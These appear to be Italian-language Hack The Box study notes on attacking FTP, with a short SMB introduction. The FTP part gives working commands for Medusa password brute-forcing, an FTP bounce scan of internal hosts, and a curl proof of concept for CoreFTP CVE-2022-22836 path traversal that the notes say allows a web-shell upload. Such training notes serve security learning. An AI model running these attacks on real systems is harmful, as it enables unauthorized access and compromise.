 per usare le GUI dobbiamo installare 

`j4k1dibe@htb[/htb]$ sudo dpkg -i dbeaver-<version>.deb`


# Attacking FTP

## Enumeration
`j4k1dibe@htb[/htb]$ sudo nmap -sC -sV -p 21 192.168.2.142 `

## Misconfigurations

1) Controlliamo se possiamo fare anonymous login


## Brute force con Medusa

`j4k1dibe@htb[/htb]$ medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp `

## FTP Bounce attack

Un attacco FTP Bounce permette ad un attaccante di utilizzare un server FTP esposto all' esterno per interagire con la rete interna usando il comando **PORT**.

`nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2` 

Con questo comando possiamo fare una nmap scan di una macchina in rete interna.

## Latest FTP VUlnerabilities


### CoreFTP before build 727 CVE-2022-22836

E' una vuln che ci permette (da autenticati) di fare ath traversal e fare arbitrary file write (quindi se c'e' tipo un server web possiamo caricare una web shell)

### Exploitation
`j4k1dibe@htb[/htb]$ curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops`

# Attacking SMB

SMB Gira in porta 139 TCP e porta 137 e 138 UDP.

Inizialmente ra fatto per girare sopra NetBIOS in TCP , ma dopo Microsoft ha agigunto opzione di runnarlo diretto su porta 445 senza il layer di NetBIOS.
Comunque anche i sistemi moderni supportano SMB over NetBIOS come implementazione di resilienza.

Altro protoccoli correlato a SMB e' MSRPC, RPC da ai developer un metodo per eseguire procedure remoto in locale o remoto senza dover capire i protocolli di rete.
